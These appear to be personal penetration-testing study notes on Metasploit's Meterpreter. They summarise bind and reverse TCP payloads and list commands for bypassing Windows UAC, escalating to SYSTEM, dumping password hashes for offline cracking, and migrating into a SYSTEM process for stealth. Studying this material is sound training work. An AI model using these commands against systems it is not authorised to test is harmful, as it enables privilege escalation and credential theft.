 > [!NOTE] 
> You can then run Wireshark and intercept the traffic!


# METERPRETER

Most used Payloads:

- bind_tcp 
    Runs a server process on the target machine that waits for connections from the attacker machine

- reverse_tcp
    Performs a TCP connection back to the attacker machine. As you saw in the Backdoors chapter, this feature 
    help evade firewall rules

> We can use the getsystem to update our privilege, but in modern Windows that is not possible because of the User Account Control
> We can bypass that restriction by using the "bypassuac" 

- search bypassuac
```bash
use exploit/windows/local/bypassuac
set session <session that we want to update privileges>
```

> in the new meterpreter session, the UAC is disabled, so we can execute the command "getsystem"


- hashdump to dump the password databases and save it 'for' an offline cracking session;

```bash
use post/windows/gather/hashdump
set session <session number>
```


We can 'download' and 'upload' files:
```bash
'shell' > to run standard operating system shell


run post/windows/gather/win_privs = whoami /priv

ps
```

We can migrate to a process to be more stealth:
```bash
ps -U SYSTEM or whatever our privileges is;

migrate < PID >

getpid to see if it worked.

hashdump # to hash the pwd and shadow, but only works if we have SYSTEM privilege.
```
